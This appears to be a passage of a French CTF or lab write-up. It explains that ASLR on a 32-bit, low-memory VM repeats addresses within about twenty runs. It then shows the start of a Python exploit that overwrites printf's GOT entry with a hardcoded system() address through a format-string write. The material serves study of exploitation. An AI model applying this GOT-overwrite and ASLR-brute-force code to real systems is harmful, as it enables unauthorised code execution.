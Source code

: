 Pour me faire une idée du temps que le brute force de l'*ASLR* prendrait j'ai créé un simple programme C qui fait un *printf("%p", system)*.  

Par dessus j'ai créé un script Python qui lance le programme en boucle et compte le nombre de lancements effectués avant d'obtenir une adresse déjà affichée.  

Et le résultat est plus que positif : en moyenne une vingtaine de tentatives suffit à retomber sur une précédente adresse.  

Pourquoi c'est aussi simple ? Principalement parce que le système est un 32 bits et que la VM n'a que 512 Mo de RAM ce qui réduit les possibilités de randomisation (l'espace d'adressage est suffisamment petit).  

Par conséquent l'exploit suivant effectue simplement une boucle en utilisant une adresse pour *system* obtenue lors de l'un des essais (*0xb762a000*).  

Le payload effectue différentes commandes dont la dernière est la création d'un fichier */tmp/hacked.txt* ce qui nous permet de déterminer si l'exploit a fonctionné.  

```python
import subprocess
import struct
import os

ret = 0x08048683
ret = 0x08048682
printf_got = 0x08049a48
system = 0xb762a000

def bf_print(string):
        l = len(string)
        # ask for the string on stdin
        result = ">".join([","]*len(string)) + "#"
        return result

def bf_print_rewind(string):
        return bf_print(string) + "<" * (len(string)-1)

addresses = struct.pack("I", printf_got)
addresses += struct.pack("I", printf_got + 1)
addresses += struct.pack("I", printf_got + 2)
addresses += struct.pack("I", printf_got + 3)

def split_addr(n):
    result = []
    n1 = n & 0xFF
    n2 = (n >> 8) & 0xFF
    n3 = (n >> 16) & 0xFF
    n4 = (n >> 24) & 0xFF
    while n1 <= 16:
        n1 += 0x100
    result.append(n1 - 16)
    while n2 <= n1:
        n2 += 0x100
    result.append(n2 - n1)
    while n3 <= n2:
        n3 += 0x100
    result.append(n3 - n2)
    while n4 <= n3:
        n4 += 0x100
    result.append(n4 - n3)
    return result

values = split_addr(system)

```